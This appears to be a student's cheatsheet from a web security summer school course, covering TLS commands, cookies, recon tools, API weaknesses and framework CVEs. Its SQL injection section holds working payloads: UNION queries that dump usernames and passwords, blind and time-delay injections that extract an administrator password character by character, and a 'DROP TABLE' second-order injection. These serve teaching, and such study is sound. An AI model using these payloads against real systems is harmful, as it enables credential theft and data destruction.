

# Security Summer School Cheatsheet

- Useful so far for midterm

## Session 01: Web Basics ([course](https://security-summer-school.github.io/web/web-basics-browser-security-model/))

Stateful (sessions) vs Stateless (no memory)

Static (fast & simple) vs Dynamic (complex & customizable)

CVE - database of known vulnerabilities of a site (CVE-year-code) => cpe (vulnerable platforms)
CWE - database of known vulnerabilities group by effect

HTTP - protocol on port 80
HTTPS - protocol on port 443

## Session 02 - Cookies, Sessions & Access Control ([course](https://security-summer-school.github.io/web/cookies-session-management-access-control/))

cookies = stored info on client part (HttpOnly (criptare) + Secure (in http si https))


hijacking cookies -> hijacking session

RBAC = role-based access control

exploit-db: dorks

- crawlers:

```
robots.txt sitemap.xml
```

## Session 03 - Securing Communication ([course](https://security-summer-school.github.io/web/securing-communication/))

TLS Handshake = key communication

D.F.K.E. = Diffie-Hellman Key Exchange: private + public key algorithms

CA = certification authority (has certificate signed by self)

Exchange: Public & Private Keys, Certificate (confirmation, name of key owner, name of CA)



commands:

- Capture HTTP packets and print their contents (ash human-readable ASCII characters):
```
sudo tcpdump -A tcp port 80
```
- Get remote web page:
```
wget http://www.google.com
```
```
wget https://www.google.com
```
```
curl http://www.google.com
```
```
curl https://www.google.com
```
- Inspect certificate file:
```
openssl x509 -noout -text -in certificate.crt
```
```
openssl x509 -noout -subject -issuer -in certificate.crt
```
- Verify certificate:
```
openssl verify -CAfile CA.crt certificate.crt
```
- Extract certificate(s) from remote end:
```
openssl s_client -showcerts -connect www.google.com:443 -servername www.google.com < /dev/null 2> /dev/null | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/p'
```
- Assess remote HTTPS and certificate security:
```
./testssl.sh security.cs.pub.ro
```


/etc/ssl/certs/ca-certificates.crt -> all possible root certificates

## Session 04 - SQL Injection ([course](https://security-summer-school.github.io/web/sql-injection/))


SQL injection examples
There are a wide variety of SQL injection vulnerabilities, attacks, and techniques, which arise in different situations.
Some common SQL injection examples include:

Retrieving hidden data - you can modify an SQL query to return additional results.
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Subverting application logic - you can change a query to interfere with the application’s logic.
```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
UNION attacks - you can retrieve data from different database tables.

```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

UNION key requirements must be met:
- individual queries must return same nr of columns.
- data types in each column must be compatible between the individual queries.

How to find out the nr of columns

```
' ORDER BY N --
```

The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values:

```
' UNION SELECT NULL,NULL,NULL--
```
After nr of columns, use values to determine data type and outputs

```
' UNION SELECT 'a',NULL,NULL,NULL--
```

```
' UNION SELECT username, password FROM users--
```

Examining the database - you can extract information about the version and structure of the database.

```
SELECT * FROM v$version
```
Determine what database tables exist, and which columns they contain
```
SELECT * FROM information_schema.tables
```

Different databases provide different ways of querying their version.

- Microsoft, MySQL	SELECT @@version
- Oracle	SELECT * FROM v$version
- PostgreSQL	SELECT version()

```
' UNION SELECT @@version--
```

Blind SQL injection - the results of a query you control are not returned in the application’s responses.

Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'

This query is vulnerable to SQL injection, but the results from the query are not returned to the user.

Check how server responds (change of cookie, delays)
```
xyz' AND '1'='1
```
```
xyz' AND '1'='2
```
This returns the “Welcome back” message, indicating that the injected condition is true.

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

Next input knowing password is greater than m (we find out not greater than t)
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

Inducing conditional responses by triggering SQL errors

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
We determine what letters are right
```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

Exploiting blind SQL injection by triggering time delays
```
'; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--
```
We can retrieve data in the way already described, by systematically testing one character at a time:
```
'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
Second Order SQL Injection - payload already stored in the database intentionally placed it can be triggered elsewhere

Example

```
$sql = "INSERT INTO user (username, password)  VALUES (:username, :password)";
$data = [
        'username' => $userName,
        'password' => $password,
        'first_name' => $firstName,
        'second_name' => $secondName
        ];
$stmt = $conn->prepare($sql);
$stmt->execute($data);
```

Introduces the following structure as a name:

```
'; DROP TABLE user; --
```
We select the user by name use the following code:
```
$sql = "SELECT * FROM user WHERE username = '{$userName}'";
$stmt = $conn->query($sql);
$user = $stmt->fetch();
```
We do not use the parameterization => the code that will be executed:
```
SELECT * FROM user WHERE username = ''; DROP TABLE user; --';
```

How to prevent SQL injection - prepared statements

Vulnerable Code
```
String query = "SELECT * FROM products WHERE category = '" + input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```

Good Code
```
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```

# Session 05 - Cross Site Scripting ([course](https://github.com/costaalacuparmare/security-summer-school-v10/blob/master/web/05-cross-site-scripting/README.md))

Tools:
- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [xssstrike](https://github.com/sqlmapproject/sqlmap)
- [owasp zap](https://www.zaproxy.org/download/)

Resources:
- [XSS types of attacks](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)
- [XSS Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

# Session 06 - Recon & Enumeration ([course](https://security-summer-school.github.io/web/recon-enumeration/))

Tools:
- [nmap](https://insecure.org/)
- [burp](https://portswigger.net/burp)
- [dirb](https://www.kali.org/tools/dirb/)

```
dirb <ip-address> <known-extensions-file.txt>
```

DVWA - web container used to train for vulnerabilities

```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Resources:
- [Shodan](https://www.shodan.io/)
- [Shodan Guide](https://www.safetydetectives.com/blog/what-is-shodan-and-how-to-use-it-most-effectively/)
- [Testing tools](https://hackr.io/blog/top-10-open-source-security-testing-tools-for-web-applications)
- [Enumeration](https://www.knowledgehut.com/blog/security/enumeration-in-ethical-hacking)
- [Fuzzing wordlist](https://github.com/Bo0oM/fuzz.txt)
- [Pathways](https://github.com/aels/subdirectories-discover)
- [Known Credentials](https://github.com/danielmiessler/SecLists)

Bug Bounty Program Lists:

- [List 1](https://github.com/projectdiscovery/public-bugbounty-programs/blob/master/chaos-bugbounty-list.json)
- [List 2](https://www.bugcrowd.com/bug-bounty-list/)
- [List 3](https://hackerone.com/bug-bounty-programs)

# Session 07 - Framework & APIs' vulnerabilities ([course](https://security-summer-school.github.io/web/framework-api-vulnerabilities/))

Application programming interfaces (APIs):

- Broken Object Level Auth: can request information from an API endpoint
- Broken Authentication: dictionary/ brute force attacks allowed
- Excessive Data Exposure: An user can access lists of other items not needed for his access
- Lack of Resources & Rate Limiting: DoS attacks and endpoint outages (make too many requests)
- Broken Function Level Authorization: find endpoints that are vulnerable to requests (by modifying he sent data)
- Mass Assignment: update information that should not be accessed by showing the request with the information
- Security Misconfiguration: Using known systems without updates and being already cracked online (on Shodan)
- Injection: SQli, XSS, etc, but used like: "WAITFOR DELAY '0:0:5'-" therefore detecting a vulnerability
- Improper Assets Management: Access to undeleted previous APIs versions
- Insufficient Logging & Monitoring: Attacks slip away for as much as 200 days

Framework = software designed to ease the development of web applications (DB access, input filtering, auth, session handling, templates)

There are several different types of web application frameworks:
* General purpose website frameworks (Ruby On Rails, ExpressJS, Django, Flask)
* Discussion forums, wikis and weblogs (WikiBase/WikiWikiWeb)
* Organizational portals (JBoss Portal)
* Content Management Systems (CMS) (Joomla, Drupal, Wordpress)

Frameworks and the vulnerabilities:

- [Laravel](https://customerthink.com/what-makes-laravel-the-most-preferred-php-framework-for-web-development/): 2019 SQL Injection detected; vulnerable versions: Laravel 5.6/5.7/5.8 w/ Laravel-query-builder < v1.17.1 and 5.5 w/ query-builder < v1.16.1
- Drupal: 2018 Patch for form rendering that could execute code sent in the image field [POC] (https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py); vulnerable versions: Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 /< 7.58
- WordPress: CVE-2018-6389 (DoS): [expoit live](https://www.youtube.com/watch?v=nNDsGTalXS0&feature=youtu.be)

DVWP - [Damn Vulnerable WordPress] (https://github.com/vavkamil/dvwp)

Tools:
- [WPScan](https://wpscan.com/wordpress-security-scanner)
- [BuiltWith](https://builtwith.com/)
- [Wappalyzer](https://www.wappalyzer.com/)

# Session 8: Exotic Attacks ([course](https://security-summer-school.github.io/web/exotic-attacks/))
